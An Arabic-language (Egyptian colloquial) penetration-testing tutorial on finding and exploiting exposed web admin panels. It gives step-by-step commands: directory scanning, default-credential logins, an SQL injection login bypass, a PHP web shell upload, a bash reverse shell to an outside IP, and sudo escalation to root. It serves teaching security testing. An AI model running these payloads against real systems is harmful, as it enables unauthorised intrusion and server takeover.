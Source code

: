 # **1. إيه هو Exposed Admin Panels؟**

## **الشرح العميق:**
"Exposed Admin Panels" يعني إن لوحات التحكم بتاعة الأدمن (Admin Panels) في موقع ويب أو نظام متاحة ومكشوفة لأي حد على الإنترنت بدون حماية كافية. اللوحات دي هي اللي بتدي الأدمن القدرة يتحكم في الموقع (زي إضافة مستخدمين، تغيير إعدادات، أو حذف بيانات)، ولما تكون مكشوفة، يعني أي حد يقدر يوصلها من غير ما يثبت إنه الأدمن. ده بيحصل كتير لما:
- المسار بتاعها واضح (زي `/admin` أو `/dashboard`).
- مافيش تسجيل دخول قوي أو حماية زي CAPTCHA أو 2FA.
- اللوحة متاحة للكل بسبب إعدادات ضعيفة.

## **الأدوات والأوامر العملية:**
### 1. **فحص المسارات الشائعة:**
   - جرب في المتصفح:
     - `http://target.com/admin`.
     - `http://target.com/dashboard`.
     - `http://target.com/login`.
   - لو ظهرت صفحة تسجيل دخول أو لوحة مباشرة، يبقى مكشوف.

### 2. **استخدام curl:**
   - `curl -I http://target.com/admin` -> لو رجع `200 OK`، يعني موجود ومفتوح.

### 3. **أدوات فحص:**
   - بـ Dirb أو Gobuster:
     - `dirb http://target.com /usr/share/wordlists/dirb/common.txt`.
     - لو لقيت `/admin` أو `/controlpanel`، جربها.

### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب مكتب المدير مفتوح في الشارع، أي حد يقدر يخش يتحكم في كل حاجة! Exposed Admin Panels يعني مكان التحكم بتاع الموقع متاح للكل زي السوق."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
اللوحات دي خطيرة لأنها بتكون الباب الرئيسي للتحكم في الموقع أو النظام. لو المهاجم وصلها:
- **تحكم كامل:** يقدر يضيف مستخدمين، يمسح بيانات، أو يغير إعدادات.
- **سرقة بيانات:** يشوف كل حاجة زي بيانات العملاء أو كلمات السر.
- **زرع أكواد:** يرفع Shell أو Backdoor عشان يرجع تاني.
- **تصعيد صلاحيات:** لو اللوحة متصلة بالسيرفر، يقدر ياخد Root أو System.

في الـ Pentesting، اللوحات المكشوفة دي بتكون كنز لأنها بتديك وصول مباشر لكل حاجة من غير تعب كبير.

## **الأدوات والأوامر العملية:**
### 1. **تجربة تسجيل دخول:**
   - لو لقيت `http://target.com/admin/login.php`:
     - جرب كلمات سر افتراضية:
       - Username: `admin` - Password: `admin`.
       - Username: `admin` - Password: `password`.

### 2. **استغلال بدون تسجيل:**
   - لو `http://target.com/admin` فتحت مباشرة:
     - ابحث عن خيار Upload أو Settings.

### 3. **SQL Injection للوصول:**
   - لو فيه Login:
     - `http://target.com/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.
     - لو دخلت، يبقى مكشوف وضعيف.

## **خلاصة بالعامية المصرية:**
"اللوحة دي خطيرة لأنها زي مفتاح العربية، لو حد مسكه هياخد كل حاجة! المهاجم يلاقيها مفتوحة، يخش يلعب في الموقع زي ما يكون بيته."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم اللوحة المكشوفة عشان تتحكم في الموقع أو تاخد وصول أعلى للسيرفر.
- **مثال واقعي:** لو لقيت `/admin` مفتوح، ترفع Shell وتاخد Shell كامل.

## **خلاصة بالعامية المصرية:**
"لما تلاقي اللوحة مكشوفة، زي ما تكون لقيت كنز في لعبة، بتستخدمه عشان تتحكم في كل حاجة وتبقى الكبير بتاع الماتش!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن Admin Panels**
- جرب مسارات شائعة:
  - `curl -I http://192.168.1.10/admin` -> لو `200 OK`، يبقى موجود.
  - `curl -I http://192.168.1.10/dashboard`.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt`.

## **الخطوة 3: اختبار الوصول**
- لو لقيت `/admin`:
  - افتحه: `http://192.168.1.10/admin`.
  - لو طلب Login:
    - جرب: `admin:admin` أو `admin:password`.
  - لو مفتوح مباشرة، ابحث عن Settings أو Upload.

## **الخطوة 4: استغلال اللوحة**
- لو دخلت:
  - ابحث عن مكان Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> لو رجع `www-data`.
- لو فيه SQL Injection:
  - `http://192.168.1.10/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.

## **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 6: توثيق**
- سجل المسار اللي لقيته (زي `/admin`) وطريقة الدخول.
- قدم تقرير يوضح إزاي اللوحة المكشوفة فتحت الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مكتب المدير مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! اللوحة المكشوفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Exposed Admin Panels هي ثغرة كبيرة لأنها بتديك وصول مباشر للتحكم في الموقع. في الـ Pentesting، دور عليها بـ curl أو Gobuster، استغلها عشان تدخل، ترفع Shell، أو تاخد صلاحيات أعلى، ووري العميل إن نظامه زي بيت بدون باب! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!